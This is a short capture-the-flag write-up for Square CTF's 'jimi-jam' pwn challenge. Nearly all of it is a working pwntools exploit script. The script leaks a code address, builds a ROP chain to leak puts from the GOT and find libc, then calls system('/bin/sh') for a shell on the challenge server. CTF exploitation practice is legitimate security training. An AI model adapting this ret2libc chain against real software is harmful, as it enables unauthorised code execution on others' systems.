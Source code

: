 ## Square CTF: jimi-jam [pwn]
![](jimijam_desc.png)

#### ROP with some address shenanigans. Basically just calculate the base function address from the given leak, and rop to win. Detailed writeup after I finish my midterms papers, exploit code + shell for now.

```python
from pwn import *

binary = ELF('./jimi-jam', checksec = False)
libc = ELF('./libc.so.6', checksec = False)
#p = process('./jimi-jam')
p = remote('challenges.2020.squarectf.com', 9000)
#gdb.attach(p.pid, 'break *vuln + 48')

#: use bitwise operations to calculate addresses
print(p.recvuntil('here! '))
ropjail = int(p.recv().split('\n')[0], 16)
vuln_addr = ropjail - 0x2df7
func_base = vuln_addr & 0xfffffffff000

print('[*] ROPJAIL: {}'.format(hex(ropjail)))
print('[*] vuln addr: {}'.format(hex(vuln_addr)))
print('[*] func base: {}'.format(hex(func_base)))

#: exploit chain
exploit = cyclic(16)
exploit += p64(func_base + 0x3a3) #: pop rdi ; ret
exploit += p64(func_base + 0x2000 + 0xfa0) #: puts@GOT
exploit += p64(func_base + 0x0b0) #: puts@PLT
exploit += p64(vuln_addr)
p.sendline(exploit)

puts_leak = int('0x' + hex(u64(p.recvuntil('\n').ljust(8, '\x00')))[3:], 16)
print(hex(puts_leak))
libc_base = puts_leak - libc.symbols['puts']
print(hex(libc_base))

exploit = cyclic(16)
exploit += p64(func_base + 0x01a)
exploit += p64(func_base + 0x3a3)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])
p.sendline(exploit)
p.interactive()
```
![](jimijam_shell.png)